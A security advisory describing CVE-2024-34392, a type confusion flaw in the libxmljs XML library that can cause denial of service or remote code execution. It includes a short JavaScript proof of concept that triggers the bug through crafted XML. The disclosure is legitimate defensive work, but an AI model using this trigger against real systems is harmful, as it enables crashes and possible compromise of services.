 ```yaml
---
description: CVE-2024-34392, HIGH, libxmljs namespaces type confusion RCE
title: libxmljs namespaces type confusion RCE
date_published: "2024-05-02"
last_updated: "2024-05-02"
xray_id: JFSA-2024-001034096
vul_id: CVE-2024-34392
cvss: 8.1
severity: high
discovered_by: Uriya Yavnieli
type: vulnerability

---
```


## Summary

libxmljs namespaces type confusion RCE

## Component

libxmljs

## Affected versions

(,)

## Description

libxmljs is vulnerable to a type confusion vulnerability when parsing a specially crafted XML while invoking the namespaces() function (which invokes _wrap__xmlNode_nsDef_get()) on a grand-child of a node that refers to an entity. This vulnerability can lead to denial of service and remote code execution.

## PoC

```js
const libxmljs = require('libxmljs');

var d = `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note
[
<!ENTITY writer PUBLIC "` + "A".repeat(8) + "B".repeat(8) + "C".repeat(8) + "D".repeat(8) + "P".repeat(8) + `" "JFrog Security">
]>
<from>&writer;</from>
`;

t = libxmljs.parseXml(d)
from = t.get('//from')
c = from.childNodes()[0]
c2 = c.childNodes()[0] //entity_decl
n = c2.namespaces(true) //onlyLocal = true
```


## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Original Advisory](https://github.com/libxmljs/libxmljs/issues/646)


